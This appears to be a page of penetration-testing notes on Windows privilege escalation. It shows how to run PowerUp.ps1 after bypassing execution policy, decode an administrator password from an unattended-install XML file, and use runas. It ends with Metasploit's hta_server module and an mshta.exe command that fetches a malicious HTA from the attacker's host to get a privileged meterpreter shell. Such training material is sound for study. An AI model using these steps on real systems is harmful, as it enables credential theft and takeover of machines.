 # 4 - Windows File System Vulnerabilities

* Alternate Data Streams

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}

### How to use PowerUp.ps1 script

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 1
# traansfer to windows target.

# 2
# bypass powershell execution policy.
powershell -ep bypass

# 3
# import the module to the current session.
Import-Module .\PowerUp.ps1

# 4
# load the script
. .\PowerUp.ps1

# 5
# to see all imported commands
Get-Command -Module Privesc

# 6
# Invoke-PrivEscAudit checks and other checks
Invoke-PrivEscAudit
# we found some "Unattend installation .xml files" you could find something else.
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/Screenshot_2023-05-10_13-29-12.png" alt=""><figcaption></figcaption></figure>

cat out the content, you get the administrator username and its encoded password.

Decode it with Powershell.

`$password='sdbsvdvvffvv'` - create a variable in powershell.

`$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64 String($password))` - decode the password with powershell cmd.

<figure><img src="../../../../../.gitbook/assets/Screenshot_2023-05-10_13-39-12.png" alt=""><figcaption><p>decode password with PowerShell</p></figcaption></figure>

Now spawn a privileged cmd prompt session with the credentials using the "runas.exe" utility.

`runas.exe /user:Administrator cmd` - spawning cmd prompt shell.



Now open Metasploit in Kali

{% code overflow="wrap" lineNumbers="true" %}
```bash
# use the hta_server module
use exploit/windows/misc/hta_server
exploit

# it creates a 2 links, copy the local link
# http://0.0.0.0:8080/NQrQsVq9oDB3Tsd.hta

# goto the victim pc, run "mshta.exe" utility with the malicious HTA server link in the spawned cmd prompt session.
mshta.exe http://0.0.0.0:8080/NQrQsVq9oDB3Tsd.hta

# back in kali, we should get a privileged meterpreter session.
```
{% endcode %}





